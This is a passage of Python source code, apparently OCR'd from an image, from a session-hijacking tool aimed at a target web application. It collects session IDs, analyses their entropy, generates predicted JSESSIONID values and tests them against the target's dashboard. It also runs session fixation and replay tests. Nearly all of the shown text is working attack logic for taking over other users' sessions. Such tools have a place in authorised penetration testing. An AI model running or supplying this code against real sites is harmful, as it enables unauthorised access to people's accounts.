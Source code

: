 ```python
        
        # Phase 1: Session Analysis
        analyzer = SessionAnalyzer(self.target_url)
        session_ids, timestamps = analyzer.collect_session_samples(20)
        
        if session_ids:
            # Analyze patterns
            analysis = analyzer.analyze_session_patterns(session_ids, timestamps)
            self.display_analysis_results(analysis)
            
            # Test prediction
            predicted = analyzer.test_session_prediction(session_ids)
            if predicted:
                print(f"\n[+] Generated {len(predicted)} predicted session IDs")
                self.test_predicted_sessions(predicted[:5])  # Test first 5
        
        # Phase 2: Session Fixation Test
        self.test_session_fixation()
        
        # Phase 3: Session Replay Test
        if session_ids:
            self.test_session_replay(session_ids[:3])
        
        # Send comprehensive test results
        self.send_test_results()
    
    def display_analysis_results(self, analysis):
        """Display session analysis results"""
        print(f"\n[+] Session Analysis Results:")
        print(f"  Total samples: {analysis['total_samples']}")
        print(f"  Average entropy: {analysis['entropy_analysis']['average']:.2f} bits")
        
        if analysis['vulnerabilities']:
            print(f"  Vulnerabilities found:")
            for vuln in analysis['vulnerabilities']:
                print(f"    - {vuln}")
        else:
            print(f"  No obvious vulnerabilities detected")
    
    def test_predicted_sessions(self, predicted_sessions):
        """Test predicted session IDs for validity"""
        print(f"\n[+] Testing predicted session IDs...")
        
        valid_sessions = 0
        
        for i, session_id in enumerate(predicted_sessions):
            session = requests.Session()
            session.cookies.set('JSESSIONID', session_id)
            
            try:
                response = session.get(f"{self.target_url}/dashboard")
                if response.status_code == 200 and 'welcome' in response.text.lower():
                    print(f"  [!] Valid session found: {session_id[:20]}...")
                    valid_sessions += 1
                else:
                    print(f"  [-] Invalid session: {session_id[:20]}...")
            except:
                print(f"  [-] Error testing session: {session_id[:20]}...")
        
        print(f"[+] Found {valid_sessions} valid sessions out of {len(predicted_sessions)} predicted")
        return valid_sessions
    
```